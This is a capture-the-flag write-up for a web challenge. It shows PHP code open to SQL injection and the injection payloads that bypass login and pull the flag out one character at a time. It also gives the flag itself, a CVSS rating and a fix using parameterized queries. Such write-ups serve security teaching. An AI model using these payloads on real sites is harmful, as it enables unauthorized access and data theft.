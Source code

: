 # WEB APPLICATION CTF Challenge Writeup

## Challenge Overview
- **Target**: `http://15.237.112.58:8087/`
- **Category**: Web application security challenge
- **Task**: Identify and exploit the vulnerability to retrieve the flag, then submit a comprehensive report.

## Challenge Description
A web application with a Single page returning "wrong !" was found to be vulnerable to SQL injection. The challenge requires extracting a hidden flag from the database by exploiting the authentication mechanism.


## Vulnerability Analysis

### Vulnerable Code
```php
<?php
$user=$_GET['user'];
$pass=$_GET['pass'];
$sql = @mysqli_fetch_assoc(mysqli_query($db,
    "SELECT * FROM users WHERE username='{$user}' AND password='{$pass}';"
));
?>
```

### Security Issues
1. **Direct input concatenation** into SQL queries
2. **Insufficient input filtering** that can be bypassed
3. **No parameterized statements** used

## Exploitation Steps

### Step 1: Authentication Bypass
First, we confirm SQL injection vulnerability:

```http
GET /?user='OR'1'='1'OR'a&pass=test HTTP/1.1
```

**Response**: `welcome \o/` ✅

### Step 2: Identify Database Structure
Check if a `flag` table exists:

```http
GET /?user='OR(length((select*from(flag)))>0)OR'a&pass=test HTTP/1.1
```

**Response**: `welcome \o/` ✅


### Step 3: Character-by-Character Extraction
Using the payload structure that bypasses filters:

```python
payload = f"'OR(mid((select(flag)from(flag)),{position},1))='{char}'OR'a"
```


## Solution

### Extracted Flag
```
flag{n0_w4f_c4n_st0p_m3}
```


### CVSS 3.1 Assessment
- **Base Score**: 9.8 CRITICAL
- **Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Remediation Recommendations

### Immediate Actions
1. **Use parameterized queries**:
   ```php
   $stmt = $db->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
   $stmt->bind_param("ss", $user, $pass);
   ```



